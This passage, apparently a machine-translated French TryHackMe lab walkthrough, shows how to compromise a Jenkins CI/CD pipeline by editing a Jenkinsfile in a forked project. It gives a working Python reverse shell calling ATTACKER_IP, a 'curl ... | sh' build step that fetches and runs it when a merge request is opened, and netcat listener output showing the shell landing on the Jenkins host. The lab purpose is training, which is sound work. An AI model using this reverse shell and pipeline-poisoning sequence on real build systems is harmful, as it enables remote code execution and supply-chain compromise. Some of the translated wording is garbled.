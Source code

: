 Forking va créer une copie du projet. Sélectionnez votre espace de noms, marquez le projet comme Privé et sélectionnez Projet Fork:

![62782c4148e9f1c3bc46a34702049b98](https://github.com/user-attachments/assets/a6c9a30f-186e-43c4-aaaf-ef0bfc1e5910)

Bien qu'il existe plusieurs façons d'exploiter la construction de la fusion, nous nous concentrerons sur la méthode la plus simple, qui consiste à modifier le fichier Jenkins. CI/Les pipelines /CD ne sont souvent que l'exécution de code en tant que fonctionnalité, et nous pouvons en tirer parti en mettant à jour le fichier Jenkins pour simplement exécuter un shell pour nous! Il y a plusieurs façons de le faire; si vous vous sentez à l'aise, vous pouvez jouer seul. Nous suivrons une approche plus lente pour nous assurer d'obtenir des commentaires Jenkins serveur pendant que la build s'exécute. Pour ce faire, nous allons d'abord créer un simple fichier shell inversé:

**shell.sh**

```
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```

Assurez-vous de modifier ATTACKER_IP pour être votre VPN ou AttackBox IP. Vous pouvez maintenant héberger ce fichier avec un simple serveur web Python en utilisant `python3 -m http.server 8080` et nous pouvons créer un auditeur en utilisant `nc -lvp 8081`. Cliquez sur le fichier Jenkins, puis sur Modifier, et remplacez votre fichier Jenkins par le code suivant:

**Jenkinsfile**

```
pipeline {
    agent any
    stages {
       stage('build') {
          steps {
              sh '''
                    curl http://ATTACKER_IP:8080/shell.sh | sh
                '''
              }
          }
       }
    }
```

Une fois que vous avez effectué la modification, validez les modifications. Pour que Jenkins exécute notre fichier Jenkins maintenant malveillant, nous devons créer une demande de fusion:

![cc884baa3ca5695ade221851e2b67e9f](https://github.com/user-attachments/assets/650d3326-625f-479d-93b2-dfec6c55cc13)

Créez la demande de fusion, ajoutez une description et cliquez sur Créer. Si vous avez terminé toutes les étapes en quelques secondes, vous devriez voir un appel à votre serveur Web pour télécharger le shell et, peu de temps après, vous devriez, une nouvelle connexion shell sur le terminal!

**Terminal**

```
root@AttackBox:~$ nc -lvp 8081
Listening on 0.0.0.0 8081
Connection received on jenkins.tryhackme.loc 55994
/bin/sh: 0: can't access tty; job control turned off
$ whoami
ubuntu
```
